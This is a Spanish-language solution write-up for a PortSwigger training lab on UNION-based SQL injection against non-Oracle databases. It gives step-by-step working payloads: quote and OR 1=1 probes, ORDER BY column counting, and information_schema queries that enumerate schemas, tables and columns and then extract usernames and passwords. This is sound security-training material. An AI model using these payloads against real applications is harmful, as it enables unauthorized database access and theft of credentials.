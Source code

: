 # SQL injection attack, listing the database contents on non-Oracle databases
#Org-PortSwigger

#Status-Done 

#SQLi

#Web
# Descripción

Este laboratorio contiene una vulnerabilidad [de inyección SQL](https://portswigger.net/web-security/sql-injection) en el filtro de categoría de producto. Los resultados de la consulta se devuelven en la respuesta de la aplicación para que pueda usar un ataque UNION para recuperar datos de otras tablas.

La aplicación tiene una función de inicio de sesión y la base de datos contiene una tabla que contiene nombres de usuario y contraseñas. Debe determinar el nombre de esta tabla y las columnas que contiene, luego recuperar el contenido de la tabla para obtener el nombre de usuario y la contraseña de todos los usuarios.

Para resolver el laboratorio, inicie sesión como `administrator`usuario.

# Solución
Al acceder a la web podemos visualizar que  trata de una tienda para comprar productos de diferentes categorías. Al filtrar por una categoría la aplicación realiza una consulta a la base de datos para devolvernos los productos de la categoría en cuestión.
![SQLi01](SQLInjection09PS/SQLi01.png)
En este caso al filtrar por accesorios la aplicación nos devuelve información de los productos de esa categoría.
Al filtrar por una categoría que no existe esta no nos devuelve datos.
![SQLi01](SQLInjection09PS/SQL02.png)
Esto se vería algo así
```sql
SELECT * FROM products WHERE category = 'W1C3'
```
Para identificar si es vulnerable a SQLi vamos a añadir una comilla simple o doble para ver si es posible inyectar código.
![SQLi03](SQLInjection09PS/SQLi03.png)
Ahora para comprobar si podemos ver todos los productos de todas las categorias le podemos decir que me filtre por la categoria W1C3 que no existe O si 1=1, como 1 es igual a 1 nos va a devolver todos los registros de la tabla en cuestion.
Esto se vería algo así
```sql
SELECT * FROM products WHERE category = 'W1C3' OR 1=1-- -' 
```
![SQLi03](SQLInjection09PS/SQLi04.png)
Ahora que sabemos que es vulnerable a SQLi vamos a sacar el numero de columnas que usa, usando la técnica del Order By, Para ello tendremos que ir probando con:

```sql
'ORDER BY 1-- -
'ORDER BY 2-- -
'ORDER BY 3-- -
```

![Untitled](SQLInjection09PS/Untitled.png)
En el caso del ORDER BY 2 no recibimos un error del servidor, pero al añadir el ORDER BY 3 podemos ver un internal server error
![SQLi03](SQLInjection09PS/SQLi05.png)
Así que ya sabemos que existen 2 columnas en la query con la que nos tendremos que apañar.
Una vez sabemos las columnas vamos a comprobar si los columnas son de tipo texto/string/varchar

```sql
'UNION SELECT 'W1C3','W1C32'-- -
```

![Untitled](SQLInjection09PS/Untitled%201.png)
En este caso los dos campos son de texto, pero en este reto tenemos que conseguir las tablas y sus campos, por lo que vamos a listar todas las base datos instaladas en el sistema. No sin antes ver con que sistema de base de datos nos estamos enfrentando.
![SQLi03](SQLInjection09PS/SQLi06.png)
Ahora sí, existe una tabla que se llama **information_schema.schemata** que contiene una columna que se llama **SCHEMA_NAME,** el cual sirve para listar las bases de datos Non-Orcale

### Listar las bases de datos Non-Oracle

```sql
'UNION SELECT 'W1C3',SCHEMA_NAME FROM information_schema.schemata-- -
```

![Untitled](SQLInjection09PS/Untitled%202.png)

Una vez que tenemos listadas las bases de datos, tenemos que listar las tablas que contiene esta base de datos. Para ello existe una tabla que tiene registradas todas las tablas de las bases de datos, esta tabla se llama **information_schema.tables** y la columna que vamos a visualizar es **table_name.** También necesitaremos filtrar por la base de datos que queremos analizar para ello tenemos ****table_schema**** así que vamos a craftear nuestro payload sabiendo que la base de datos que nos interesa es la de public

### Listar las tablas de una base de datos Non-Oracle

```sql
'UNION SELECT 'W1C3',table_name FROM information_schema.tables 
WHERE table_schema = 'public'-- -
```

![Untitled](SQLInjection09PS/Untitled%203.png)

Aqui observamos como la base de datos public contiene una tabla en las que almacena información sobre usuarios, para saber los campos que tiene esta tabla podemos listar gracias a la tabla **information_schema.columns** de la cual vamos a extraer los **column_name** filtrando por **table_schema** y  **table_name.**

### Listar columnas de una tabla Non-Oracle

```sql
'union select 'W1C3',column_name from information_schema.columns 
where table_schema = 'public' AND table_name = 'users_rncvzd'-- -
```

![Untitled](SQLInjection09PS/Untitled%204.png)

De esta manera podemos enumerar el contenido de la base de datos que no son de Oracle. 

Ahora que ya tenemos tanto el nombre de la tabla como el nombre de las columnas vamos a sacar los usuarios y contraseñas

### Sacar los usuarios y contraseñas

```sql
' UNION SELECT username_jpzwqw, password_plgyjd FROM users_rncvzd-- -
```

![Untitled](SQLInjection09PS/Untitled%205.png)

Nos logueamos como admin y superamos el lab

![Untitled](SQLInjection09PS/Untitled%206.png)